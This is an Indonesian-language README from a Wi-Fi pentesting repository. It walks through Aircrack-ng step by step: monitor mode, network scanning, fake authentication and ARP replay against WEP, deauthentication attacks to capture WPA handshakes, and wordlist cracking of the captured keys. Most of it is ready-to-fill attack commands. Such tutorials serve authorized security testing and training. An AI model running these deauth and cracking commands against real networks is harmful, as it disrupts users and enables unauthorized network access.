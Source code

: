 # Aircrack-NG

![Aircrack-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/aircrack-ng/img/aircrack-ng.jpg)

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

### 1. Scan Wi-Fi:

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:

   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

### 2. Capture Handshake/IVs

1. WEP:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WEP --ivs --write [output] [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WPA,WPA2 --write [output] [interface]
   ```

### 3. Jalankan Serangan:

1. WEP:

   1. Buat autentikasi palsu ke AP target:

      ```
      sudo aireplay-ng --fakeauth 0 -a [bssid] -h [mac_interface] [interface]
      ```
   2. Menangkap dan me-replay paket ARP untuk menghasilkan traffic:

      ```
      sudo aireplay-ng --arpreplay -b [bssid] -h [mac_interface] [interface]
      ```
   3. Tunggu hingga IVs terkumpul cukup banyak.
      - Minimal sekitar 40.000 - 85.000 IVs untuk WEP 64-bit
      - Minimal sekitar 85.000 - 150.000 IVs untuk WEP 128-bit
2. WPA/WPA2-PSK:

   1. Putuskan koneksi client menggunakan Deauth Attack:

      ```
      sudo aireplay-ng --deauth [jumlah] -a [bssid] [interface]
      ```
      
      > **Catatan:**
      > - Kalau ingin deauth client tertentu gunakan opsi `-c [mac_client]` setelah opsi `-a [bssid]`.
      > - Kalau ingin deauth terus-menerus tanpa henti ganti `[jumlah]` dengan `0`.
   2. Tunggu hingga handshake tertangkap.
      - Lihat notifikasi `WPA handshake: [BSSID]` di `airodump-ng`.
### 4. Crack Handshake/IVs

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Catatan Penting

1. WEP:
   - Harus ada minimal 1 client yang terhubung ke AP untuk serangan ARP Replay berhasil.
   - Jika tidak ada client yang terhubung, serangan akan gagal karena tidak ada traffic ARP yang bisa di-capture dan di-replay.
2. WPA/WPA2-PSK:
   - Harus ada minimal 1 client yang terhubung untuk melakukan Deauth Attack.
   - Jika tidak ada client, handshake tidak bisa ditangkap karena tidak ada yang bisa di-deauth.
